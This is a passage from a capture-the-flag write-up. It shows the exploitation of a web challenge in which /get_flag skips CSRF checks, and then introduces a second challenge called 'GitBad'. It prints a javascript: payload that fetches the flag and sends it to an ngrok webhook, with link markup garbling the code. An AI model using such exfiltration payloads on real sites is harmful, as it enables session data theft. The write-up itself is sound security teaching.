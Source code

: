     - `fetch('/get_flag')` works ( same origin,  cookie sent)
        
    - `/get_flag` **skips CSRF checks** because **no Origin header is set**
        
    - Bot gets the flag
        
    - our payload sends it to our webhook
        

---

## Exploitation  

We send this Payload and watch how we bypassed all the checks and get the flag :))  

```
javascript:(async()=>{const r=await fetch('[http://34.134.162.213:17001/get_flag');const](http://34.134.162.213:17001/get_flag'\);const "http://34.134.162.213:17001/get_flag');const") t=await r.text();(new Image).src='[http://4.tcp.eu.ngrok.io:16315/leak?d='+encodeURIComponent(t)})()](http://4.tcp.eu.ngrok.io:16315/leak?d=%27+encodeURIComponent\(t\)}\)\(\) "http://4.tcp.eu.ngrok.io:16315/leak?d='+encodeURIComponent(t)})()")
```

And we get the flag.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715133605.png" alt="1" style="width:700px; height:auto;">
<br/>


```js
{"flag":"L3AK{temp_flag}","message":"You opened the right door!"}
```

---
---

# 4. GitBad  

One of the most interesting, yet simple challenge once you understand what you are dealing with :)).  

<blockquote>
  <p><strong>GitBad:</strong> Welcome to GitBad, our new cloud-based Git platform built for DevOps teams! Experience fast, reliable, and fully automated workflows. You’re among a select group invited to test our exclusive beta help us shape the future of collaborative development! </p>
</blockquote>  

We are welcomed with this `index` page.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715140851.png" alt="1" style="width:700px; height:auto;">
<br/>  

We can `sign up/in` and check what we have.  
